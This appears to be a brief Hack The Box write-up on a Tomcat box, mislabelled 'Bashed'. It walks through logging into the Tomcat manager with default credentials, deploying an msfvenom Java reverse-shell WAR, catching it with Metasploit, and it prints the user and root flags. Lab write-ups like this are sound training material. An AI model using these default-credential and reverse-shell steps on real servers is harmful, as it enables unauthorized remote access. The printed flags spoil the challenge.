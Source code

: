 ```yaml
---
layout: post
title:  "HTB Bashed Windows"
description : Easy machine, you will learn about Apache Tomcat exploitation and .war shells!
tags: HTB, apache, war
---
```


# Recon
![](https://miro.medium.com/max/737/1*qddW5evThv4QR1uIfYC0XQ.png)

![](https://lh3.googleusercontent.com/lLlV5UIbdpazmEEcIr6qKBybJZ732DwtBT-fAwF75sWQDd9XHJLniEZCX0GD-ZpqhDWs5F1LXBtAunaMTrlsAiaZ8cYoInv20JlAsC8EhcjxGwDX0O_KJZAXc7l8o6NCPzNsnaN3foLpJKnsalHb-Ctrqmtc4LNpdO6UIWd_wG82Kg33mDTCSqicQGedc1e3sFUsoLaZEYStbaE-CwzciFuTK_MkcFnIlST8MQECDFeb7Lax0jYtpzNfVk6vZY8AaW5SjsC_05WAnBNR4unD32Jm2hDPbpbgZr8mVh4NI4u6P4bF8aD_ODB6imkJYAAVhJxZls1kH1T0yddQd7KvVzX2b_oWLeJmHzLMLHPBTIe4rP7zqtQNmc3jEfwrjWiiVE8eYuqPFo95506gOB3TSgkcfd_fgJjq9xABQ7dN0tJgjKx8MhleX_q9TbnEKK4C5B58QTPSnNwyWTA7re37ToGWBvkoTJiAJPzST6uJoTXgByF6RSUCKiM2vmyEpM4g6soNFgf0zxijl_vMNk6QUY9xbcL-kejj6isnyyFS0L3oxKPO7pidCm84S4C0ZlJAn4aNW0VuLNFnvbnZJonYRNjjjWr47cdIhaLFKz-pdWC8tFZOHg6mOIMSlU0T14lCp4x_ALYx65dYObwRolBySU41oWYavrcW4n8jKU-dv_7zLLVHB-MQxr4=w1011-h462-no)

# Exploitation
Apache Tomcat is running on port:8080. 
Clicking on the **manager app** pops up the admin login page. Credentials are needed for admin
- After some google search we find the default creds for Apache Tomcat. admin:s3cret
We login into the admin page.
![](https://lh3.googleusercontent.com/gW2JGEBfDkS4WFeP-7VkoyNxaWu7sccwYWgfJ-wnvRfV4ALfJfxxBHnQIwYcixhxZGb8CjiCqlPlrId0cLYxFjCu5lkpLreJhmdmHqPUvR8DlTK1xUlDLUjlCdDBSiUbkkgKXrCjnePa0_OU-zn8_g4HtfSXJmqVHYhtFaT3XNdfMtATf3xE2TNCnPg98Y9Vb4mN5Q8B0wYkAELaRXcGSbgG1ftJaHpZsjW0R5IYid4EMCxPSVn5WmQmy2dKgu1ZluCZ5sMYiy9CEHSxvuOwe5bGd_PJ2gl1K67VE5RG_skWYWPz5vdjCK1wiJoKCkKtOsmYbZijOuR2ApywLp3KHTFuFfODKSCbcPJPYc4BNQKyrRezl8oYNqZ7j69hzi2MlOlE5Hl9RaXn_q0L48nNaUvjVg4Ka-nPPqxzdQbxmsJUTgFrBHVmyzdLDrIwDx0pNWhllvw05Y2XB5E7nL8wYZf9OClhUK2Ojek-RX5jap3_ad1AVzTjrPW42EIzKm-Li3YoZEa9Ro2sMyKDiE8RQb6YK-AhYgt7EHp5e52Ewbq5bqoyN2MUNpvbKsAeytn36kx253R837gfHeBoVJBhM785RL3x1OT5OMKgAUdCYD579-weaU51uFB6g9A8GhGfpsNEWR64m6s7nOv0mI7Dhw3a-Lb5IjMMJdF7kRykDQ3t9D3LF9Fvdak=w1335-h322-no)

Doing some enumaration on the app reveals that we can upload files .WAR
![](https://lh3.googleusercontent.com/B_21jFkyJqsFh7JKORJXQ3WKxgZU1nbUDzIkVuXz5QeILxHZ38L8sRyJ5oTklbzYSoPwDS1txwPInq27C97llJmvQIxnf3zaUPB6EFijfyvgNRhq8FF0tKwHt8IXE9iouxJHwSxz-ZthYOvg_Y4-i_dkRYedPa2iMNKcMK4RV9AguMDDdulTlRUZh3v6n52-TIzwpe56cxui30roAYkndalw0CkO6qssOWlDn09wiX4LKGoS2Zx5YiE4gU5-8j3EUWQUf6YB-CMd5qP8Yu9syDwQTtRADdbXo5nQ_65TRpWwj-q2gSfnzjRHkXBzYwpBA8dJ3v4jgOEhxYWQX2vw2pOa3qMHcdzhVqVkw3mGxyM9IE7VcFJjOjsVxLzx2Euec8xPDjHNui3S56FXUHbFeHjwGfeSa--uhvEvJ2brlun3HkQFF50ZFT2kwneC7G8_YXHQCVGEm1usXn0D4xIhOD-EgdCQlxdwLvVo-Ky_Z3E3NHxo8b8uwWarASIuD0xovlBZ9Ra7vVGqodMkh_RgxJF1yslOYSvdbLRUmW0ERzQ4C_y4H-4he2TDbAlEz5Nh9v49dqFLeUo4pTbCwSPDRp4CPzaS78-gmZ4CAJ2MP0pDJb99IbiYWuPLZK1B55DWok7vc87olaif7IaYYzSxGRgjGgeExlCcIQSvcKdhEbzHfj_gKx8nF1Y=w725-h300-no)

So we create a reverse shell using msfvenom and deployed on tomcat
```ruby
msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.14
LPORT=9999 -f war > evil.war 
```
we use metasploit and set up  **use exploit/multi/handler** . We collect the flags as we have a shell we elevated privileges.

```ruby
USER "7004dbcef0f854e0fb401875f26ebd00"
ROOT "04a8b36e1545a455393d067e772fe90e"
```
